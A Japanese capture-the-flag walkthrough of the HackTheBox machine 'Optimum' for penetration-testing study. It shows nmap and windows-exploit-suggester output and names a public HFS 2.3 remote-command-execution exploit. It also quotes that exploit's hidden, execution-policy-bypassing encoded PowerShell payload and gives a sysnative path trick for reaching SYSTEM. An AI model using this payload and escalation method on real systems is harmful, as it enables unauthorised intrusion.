



---
title:【Easy/Windows】Optimum Writeup(HackTheBox)
date: "2022-07-23"
template: "post"
draft: false
slug: "hackthebox-windows-optimum"
category: "HackTheBox"
tags:
  - "HackTheBox"
  - "Windows"
  - "EasyBox"
description: "HackTheBoxのリタイアマシン「Optimum」のWriteUpです。"
socialImage: "/media/cards/no-image.png"

---

「Hack The Box」という、ペネトレーションテストの学習プラットフォームを利用してセキュリティについて学んでいます。
「Hack The Box」のランクは、本記事執筆時点でProHackerです。


今回は、HackTheBoxのリタイアマシン「Optimum」のWriteUpです。

<!-- omit in toc -->
## 本記事について

**本記事の内容は社会秩序に反する行為を推奨することを目的としたものではございません。**

自身の所有する環境、もしくは許可された環境以外への攻撃の試行は、「不正アクセス行為の禁止等に関する法律（不正アクセス禁止法）」に違反する可能性があること、予めご留意ください。

またすべての発言は所属団体ではなく個人に帰属します。

<!-- omit in toc -->
## もくじ
- [探索](#探索)
- [シェルの取得](#シェルの取得)
- [権限昇格](#権限昇格)
- [まとめ](#まとめ)

## 探索

とりあえずポートスキャンから。

ファストスキャンで見える範囲は80番ポートのみのようです。

``` bash
$ nmap -sV -sC -T4 targethost.htb| tee nmap1.txt
Starting Nmap 7.92 ( https://nmap.org ) at 2022-07-23 06:10 PDT
Nmap scan report for targethost.htb (10.10.10.8)
Host is up (0.24s latency).
Not shown: 999 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
80/tcp open  http    HttpFileServer httpd 2.3
|_http-title: HFS /
|_http-server-header: HFS 2.3
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 27.52 seconds
```

開いて見ると、HFS(HttpFileServer)というアプリケーションのバージョン2.3が稼働しているようです。



## シェルの取得

ググってみたところExploitはいっぱいありそうでした。

というわけで、適当に落ちてる以下のPoCを使ったところ、あっさりシェルとUserフラグが取得できました。

参考：[HFS (HTTP File Server) 2.3.x - Remote Command Execution (3) - Windows remote Exploit](https://www.exploit-db.com/exploits/49584)

## 権限昇格

例によって`windows-exploit-suggester`を使って脆弱性を特定していきます。

``` bash
$ python windows-exploit-suggester.py --database 2022-07-23-mssb.xls --systeminfo systeminfo.txt
[*] initiating winsploit version 3.3...
[*] database file detected as xls or xlsx based on extension
[*] attempting to read from the systeminfo input file
[+] systeminfo input file read successfully (utf-8)
[*] querying database file for potential vulnerabilities
[*] comparing the 32 hotfix(es) against the 266 potential bulletins(s) with a database of 137 known exploits
[*] there are now 246 remaining vulns
[+] [E] exploitdb PoC, [M] Metasploit module, [*] missing bulletin
[+] windows version identified as 'Windows 2012 R2 64-bit'
[*] 
[E] MS16-135: Security Update for Windows Kernel-Mode Drivers (3199135) - Important
[*]   https://www.exploit-db.com/exploits/40745/ -- Microsoft Windows Kernel - win32k Denial of Service (MS16-135)
[*]   https://www.exploit-db.com/exploits/41015/ -- Microsoft Windows Kernel - 'win32k.sys' 'NtSetWindowLongPtr' Privilege Escalation (MS16-135) (2)
[*]   https://github.com/tinysec/public/tree/master/CVE-2016-7255
[*] 
[E] MS16-098: Security Update for Windows Kernel-Mode Drivers (3178466) - Important
[*]   https://www.exploit-db.com/exploits/41020/ -- Microsoft Windows 8.1 (x64) - RGNOBJ Integer Overflow (MS16-098)
[*] 
[M] MS16-075: Security Update for Windows SMB Server (3164038) - Important
[*]   https://github.com/foxglovesec/RottenPotato
[*]   https://github.com/Kevin-Robertson/Tater
[*]   https://bugs.chromium.org/p/project-zero/issues/detail?id=222 -- Windows: Local WebDAV NTLM Reflection Elevation of Privilege
[*]   https://foxglovesecurity.com/2016/01/16/hot-potato/ -- Hot Potato - Windows Privilege Escalation
[*] 
[E] MS16-074: Security Update for Microsoft Graphics Component (3164036) - Important
[*]   https://www.exploit-db.com/exploits/39990/ -- Windows - gdi32.dll Multiple DIB-Related EMF Record Handlers Heap-Based Out-of-Bounds Reads/Memory Disclosure (MS16-074), PoC
[*]   https://www.exploit-db.com/exploits/39991/ -- Windows Kernel - ATMFD.DLL NamedEscape 0x250C Pool Corruption (MS16-074), PoC
[*] 
[E] MS16-063: Cumulative Security Update for Internet Explorer (3163649) - Critical
[*]   https://www.exploit-db.com/exploits/39994/ -- Internet Explorer 11 - Garbage Collector Attribute Type Confusion (MS16-063), PoC
[*] 
[E] MS16-032: Security Update for Secondary Logon to Address Elevation of Privile (3143141) - Important
[*]   https://www.exploit-db.com/exploits/40107/ -- MS16-032 Secondary Logon Handle Privilege Escalation, MSF
[*]   https://www.exploit-db.com/exploits/39574/ -- Microsoft Windows 8.1/10 - Secondary Logon Standard Handles Missing Sanitization Privilege Escalation (MS16-032), PoC
[*]   https://www.exploit-db.com/exploits/39719/ -- Microsoft Windows 7-10 & Server 2008-2012 (x32/x64) - Local Privilege Escalation (MS16-032) (PowerShell), PoC
[*]   https://www.exploit-db.com/exploits/39809/ -- Microsoft Windows 7-10 & Server 2008-2012 (x32/x64) - Local Privilege Escalation (MS16-032) (C#)
[*] 
[M] MS16-016: Security Update for WebDAV to Address Elevation of Privilege (3136041) - Important
[*]   https://www.exploit-db.com/exploits/40085/ -- MS16-016 mrxdav.sys WebDav Local Privilege Escalation, MSF
[*]   https://www.exploit-db.com/exploits/39788/ -- Microsoft Windows 7 - WebDAV Privilege Escalation Exploit (MS16-016) (2), PoC
[*]   https://www.exploit-db.com/exploits/39432/ -- Microsoft Windows 7 SP1 x86 - WebDAV Privilege Escalation (MS16-016) (1), PoC
[*] 
[E] MS16-014: Security Update for Microsoft Windows to Address Remote Code Execution (3134228) - Important
[*]   Windows 7 SP1 x86 - Privilege Escalation (MS16-014), https://www.exploit-db.com/exploits/40039/, PoC
[*] 
[E] MS16-007: Security Update for Microsoft Windows to Address Remote Code Execution (3124901) - Important
[*]   https://www.exploit-db.com/exploits/39232/ -- Microsoft Windows devenum.dll!DeviceMoniker::Load() - Heap Corruption Buffer Underflow (MS16-007), PoC
[*]   https://www.exploit-db.com/exploits/39233/ -- Microsoft Office / COM Object DLL Planting with WMALFXGFXDSP.dll (MS-16-007), PoC
[*] 
[E] MS15-132: Security Update for Microsoft Windows to Address Remote Code Execution (3116162) - Important
[*]   https://www.exploit-db.com/exploits/38968/ -- Microsoft Office / COM Object DLL Planting with comsvcs.dll Delay Load of mqrt.dll (MS15-132), PoC
[*]   https://www.exploit-db.com/exploits/38918/ -- Microsoft Office / COM Object els.dll DLL Planting (MS15-134), PoC
[*] 
[E] MS15-112: Cumulative Security Update for Internet Explorer (3104517) - Critical
[*]   https://www.exploit-db.com/exploits/39698/ -- Internet Explorer 9/10/11 - CDOMStringDataList::InitFromString Out-of-Bounds Read (MS15-112)
[*] 
[E] MS15-111: Security Update for Windows Kernel to Address Elevation of Privilege (3096447) - Important
[*]   https://www.exploit-db.com/exploits/38474/ -- Windows 10 Sandboxed Mount Reparse Point Creation Mitigation Bypass (MS15-111), PoC
[*] 
[E] MS15-102: Vulnerabilities in Windows Task Management Could Allow Elevation of Privilege (3089657) - Important
[*]   https://www.exploit-db.com/exploits/38202/ -- Windows CreateObjectTask SettingsSyncDiagnostics Privilege Escalation, PoC
[*]   https://www.exploit-db.com/exploits/38200/ -- Windows Task Scheduler DeleteExpiredTaskAfter File Deletion Privilege Escalation, PoC
[*]   https://www.exploit-db.com/exploits/38201/ -- Windows CreateObjectTask TileUserBroker Privilege Escalation, PoC
[*] 
[E] MS15-097: Vulnerabilities in Microsoft Graphics Component Could Allow Remote Code Execution (3089656) - Critical
[*]   https://www.exploit-db.com/exploits/38198/ -- Windows 10 Build 10130 - User Mode Font Driver Thread Permissions Privilege Escalation, PoC
[*]   https://www.exploit-db.com/exploits/38199/ -- Windows NtUserGetClipboardAccessToken Token Leak, PoC
[*] 
[M] MS15-078: Vulnerability in Microsoft Font Driver Could Allow Remote Code Execution (3079904) - Critical
[*]   https://www.exploit-db.com/exploits/38222/ -- MS15-078 Microsoft Windows Font Driver Buffer Overflow
[*] 
[E] MS15-052: Vulnerability in Windows Kernel Could Allow Security Feature Bypass (3050514) - Important
[*]   https://www.exploit-db.com/exploits/37052/ -- Windows - CNG.SYS Kernel Security Feature Bypass PoC (MS15-052), PoC
[*] 
[M] MS15-051: Vulnerabilities in Windows Kernel-Mode Drivers Could Allow Elevation of Privilege (3057191) - Important
[*]   https://github.com/hfiref0x/CVE-2015-1701, Win32k Elevation of Privilege Vulnerability, PoC
[*]   https://www.exploit-db.com/exploits/37367/ -- Windows ClientCopyImage Win32k Exploit, MSF
[*] 
[E] MS15-010: Vulnerabilities in Windows Kernel-Mode Driver Could Allow Remote Code Execution (3036220) - Critical
[*]   https://www.exploit-db.com/exploits/39035/ -- Microsoft Windows 8.1 - win32k Local Privilege Escalation (MS15-010), PoC
[*]   https://www.exploit-db.com/exploits/37098/ -- Microsoft Windows - Local Privilege Escalation (MS15-010), PoC
[*]   https://www.exploit-db.com/exploits/39035/ -- Microsoft Windows win32k Local Privilege Escalation (MS15-010), PoC
[*] 
[E] MS15-001: Vulnerability in Windows Application Compatibility Cache Could Allow Elevation of Privilege (3023266) - Important
[*]   http://www.exploit-db.com/exploits/35661/ -- Windows 8.1 (32/64 bit) - Privilege Escalation (ahcache.sys/NtApphelpCacheControl), PoC
[*] 
[E] MS14-068: Vulnerability in Kerberos Could Allow Elevation of Privilege (3011780) - Critical
[*]   http://www.exploit-db.com/exploits/35474/ -- Windows Kerberos - Elevation of Privilege (MS14-068), PoC
[*] 
[M] MS14-064: Vulnerabilities in Windows OLE Could Allow Remote Code Execution (3011443) - Critical
[*]   https://www.exploit-db.com/exploits/37800// -- Microsoft Windows HTA (HTML Application) - Remote Code Execution (MS14-064), PoC
[*]   http://www.exploit-db.com/exploits/35308/ -- Internet Explorer OLE Pre-IE11 - Automation Array Remote Code Execution / Powershell VirtualAlloc (MS14-064), PoC
[*]   http://www.exploit-db.com/exploits/35229/ -- Internet Explorer <= 11 - OLE Automation Array Remote Code Execution (#1), PoC
[*]   http://www.exploit-db.com/exploits/35230/ -- Internet Explorer < 11 - OLE Automation Array Remote Code Execution (MSF), MSF
[*]   http://www.exploit-db.com/exploits/35235/ -- MS14-064 Microsoft Windows OLE Package Manager Code Execution Through Python, MSF
[*]   http://www.exploit-db.com/exploits/35236/ -- MS14-064 Microsoft Windows OLE Package Manager Code Execution, MSF
[*] 
[M] MS14-060: Vulnerability in Windows OLE Could Allow Remote Code Execution (3000869) - Important
[*]   http://www.exploit-db.com/exploits/35055/ -- Windows OLE - Remote Code Execution 'Sandworm' Exploit (MS14-060), PoC
[*]   http://www.exploit-db.com/exploits/35020/ -- MS14-060 Microsoft Windows OLE Package Manager Code Execution, MSF
[*] 
[M] MS14-058: Vulnerabilities in Kernel-Mode Driver Could Allow Remote Code Execution (3000061) - Critical
[*]   http://www.exploit-db.com/exploits/35101/ -- Windows TrackPopupMenu Win32k NULL Pointer Dereference, MSF
[*] 
[E] MS13-101: Vulnerabilities in Windows Kernel-Mode Drivers Could Allow Elevation of Privilege (2880430) - Important
[M] MS13-090: Cumulative Security Update of ActiveX Kill Bits (2900986) - Critical
[*] done
```

と、ここで出てきた脆弱性のエクスプロイトについては一通り試したものの、いずれもうまく動作せず、特権を取得することができませんでした。

これ、以前もハマったことがあるのですが、リバースシェルを取得した際にエクスプロイトしたプロセス(今回はHFS)が32bitで動作している場合、Spawnされたシェルのプロセスも32bitになってしまうため、64bitアーキテクチャに対するエクスプロイトが動作しなくなる問題が発生します。

実際にリバースシェルで以下のコマンドレットを実行してみると、PowerShellのプロセスが64bitではないことがわかります。

``` bash
$ [Environment]::Is64BitProcess
False
```

今回使用したExploitのpayloadは以下でした。

ここで、シェルの呼び出しを`powershell.exe`にしているために、HFSのビット数に依存したセッションが構築されたことになります。

``` bash
# Define the payload to be included in the URL
payload = f'exec|powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -WindowStyle Hidden -EncodedCommand {encoded_command}'
```

というわけでエクスプロイトスクリプトの`powershell.exe`を`C:\Windows\sysNative\WindowsPowerShell\\v1.0\powershell.exe`に変更したことで、64bitセッションでシェルを取得することに成功しました。



ここで再度抽出したExploitを試してみたところ、System権限でシェルを取得できました。



## まとめ

セッションのプロセスはトラップ。